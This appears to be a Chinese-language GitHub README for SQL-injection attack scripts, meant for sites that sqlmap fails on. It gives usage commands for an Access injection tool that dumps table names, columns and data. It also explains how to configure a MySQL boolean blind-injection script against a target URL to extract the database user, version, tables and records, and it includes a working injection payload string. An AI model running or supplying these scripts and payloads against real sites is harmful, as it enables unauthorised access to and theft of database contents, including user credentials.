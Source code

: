 # SQL-injection

# 1.写这些脚本的目的

解决sqlmap不能跑的站点，并且手工注入又会消耗大量的时间和精力的情况。

# 2.用法

## 2.1 ACCESS-Injection

Blog ： http://47.95.206.199/?p=419
```bash
python3 injection.py -u TargetUrl --tables --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 injection.py -u TargetUrl -T table_name --columns --keyword=true_page_keyword [--thread=20] #爆表名,--thread参数可选，默认为10

python3 injection.py -u TargetUrl -T table_name -C col_name1,col_name2... --dump --keyword=true_page_keyword [--thread=20] #爆数据
```
## 2.2 MYSQL-Bind-injection

Blog ： http://47.95.206.199/?p=364

1>第一处
```python
#Target URL
url = "http://targetURL//index.php?a=index&f=ilist&p="
#keyword 用于判断页面是否正确
keyword ="keyword"
```
将代码开头的URL和keyword修改
2>第二处：需要使用什么功能就把什么功能的代码注释取消即可，至于该改的table_name,column_name自己改一下
```python
    info = Info()
    #注入当前数据库的用户
    #info.user()
    #注入数据库的版本
    #info.version()
    #注入当前数据库的名字
    #info.database()
    #注入表名
    #run()
    #注入列名
    run_column("shi_user")
    #注入数据
    #columnL = ["uid","pwd"]
    #run_value("pw_user",*columnL)```
    
3>爆列中数据的时候，列名请填写两个，在程序写死了，如果需要多个列名请修改第334行代码：

e.g.三个列

payload = "-1 or ascii(substr((select concat(%s,0x7c,%s,0x7c,%s) from %s limit %s,1),%s,1))=%s" % (self.column[0],self.column[1],self.column[2],self.table, self.i, x, n)


###########
├── Readme.md               // 帮助文档 
├── ACCESS-Injection        // ACCESS的逐字猜解法脚本
│   ├── injection.py        //主程序
│   ├── table.txt           //常用表名，来自sqlmap
│   ├── column.txt          //常用列名，来自sqlmap
├── MYSQL-Bind-injection    //mysql基于布尔盲注的脚本
│   ├── injection.py        //主程序
